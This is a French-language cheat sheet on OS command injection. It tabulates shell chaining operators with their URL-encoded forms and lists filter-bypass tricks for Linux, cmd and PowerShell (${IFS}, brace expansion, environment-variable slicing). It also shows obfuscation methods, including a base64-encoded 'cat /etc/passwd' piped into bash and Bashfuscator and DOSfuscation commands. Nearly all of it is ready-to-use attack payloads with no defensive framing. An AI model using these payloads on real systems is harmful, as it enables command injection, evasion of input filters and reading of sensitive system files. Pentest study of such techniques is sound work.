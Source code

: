 | New Line   | `\n`   | `%0a`       | Les deux fonctionnent                                   |
| ---------- | ------ | ----------- | ------------------------------------------------------- |
| Background | `&`    | `%26`       | Les deux fonctionnent (second output en premier)        |
| Pipe       | `\|`   | `%7c`       | Les deux fonctionnent (seul le second output s'affiche) |
| AND        | `&&`   | `%26%26`    | Les deux fonctionnent (seulement si le premier réussit) |
| OR         | `\|\|` | `%7c%7c`    | Seul le second s'exécute si le premier échoue           |
| Sub-Shell  | `` ` ` | `%60%60`    | Les deux fonctionnent (uniquement sous Linux)           |
| Sub-Shell  | `$()`  | `%24%28%29` | Les deux fonctionnent (uniquement sous Linux)           |

# Bypass

```
%09	: tabulation
${IFS} : équivaut à un espace
{ls,-la} : bypass espace
${PATH:0:1} : équivaut à /
${LS_COLORS:10:1} : équivaut à ;
' ou " : contourne les restrictions sur les commandes interdites
$@ ou \ : contourne les restrictions sur les commandes interdites
%PROGRAMFILES:~10,-5% : correspond à un espace (cmd)
%HOMEPATH:~0,-17% : correspond à / (cmd)
$env:PROGRAMFILES[10] : correspond à un espace (powershell)
$env:HOMEPATH[0] : correspond à / (powershell)
```

# Obfuscation avec Base64

```
echo -n 'cat /etc/passwd | grep root' | base64
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCByb290)
```

# Bashfuscator (Obfuscation Bash)

```bash
./bashfuscator -c 'cat /etc/passwd'
```

# Dosfuscation (Obfuscation Windows CMD)

```powershell
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
```